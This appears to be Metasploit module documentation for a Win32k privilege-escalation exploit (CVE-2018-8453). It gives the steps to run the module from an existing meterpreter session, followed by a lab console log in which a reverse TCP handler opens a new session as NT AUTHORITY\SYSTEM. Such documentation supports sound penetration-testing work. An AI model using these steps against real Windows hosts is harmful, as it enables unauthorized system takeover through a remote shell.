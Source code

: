 ## Vulnerable Application

An elevation of privilege vulnerability exists in Windows when the Win32k component fails to properly handle objects in memory, aka "Win32k Elevation of Privilege Vulnerability." This affects Windows 7, Windows Server 2012 R2, Windows RT 8.1, Windows Server 2008, Windows Server 2019, Windows Server 2012, Windows 8.1, Windows Server 2016, Windows Server 2008 R2, Windows 10, Windows 10 Servers.

This module has been tested with Windows 10 v1703 x86. Offsets within the solution may need to be adjusted to work with other versions of Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Win10 v1703 x86
2. `use exploit/windows/local/cve_2018_8453_win32k_priv_esc`
3. `set session <session>`
4. `exploit`
5. Get a SYSTEM session

## Scenarios

### Windows 10 v1703 x86

```
msf5 exploit(windows/local/cve_2018_8453_win32k_priv_esc) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                 Connection
  --  ----  ----                     -----------                                 ----------
  1         meterpreter x86/windows  DESKTOP-T6J3V2L\testuser @ DESKTOP-T6J3V2L  172.22.222.136:4444 -> 172.22.222.130:49693 (172.22.222.130)

msf5 exploit(windows/local/cve_2018_8453_win32k_priv_esc) > set session 1
session => 1
msf5 exploit(windows/local/cve_2018_8453_win32k_priv_esc) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[+] Exploit finished, wait for privileged payload execution to complete.
[*] Sending stage (179779 bytes) to 172.22.222.130
[*] Meterpreter session 2 opened (172.22.222.136:4444 -> 172.22.222.130:49695) at 2019-06-20 08:53:01 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-T6J3V2L
OS              : Windows 10 (Build 15063).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.22.222.130 - Meterpreter session 2 closed.  Reason: User exit
msf5 exploit(windows/local/cve_2018_8453_win32k_priv_esc) > 
```

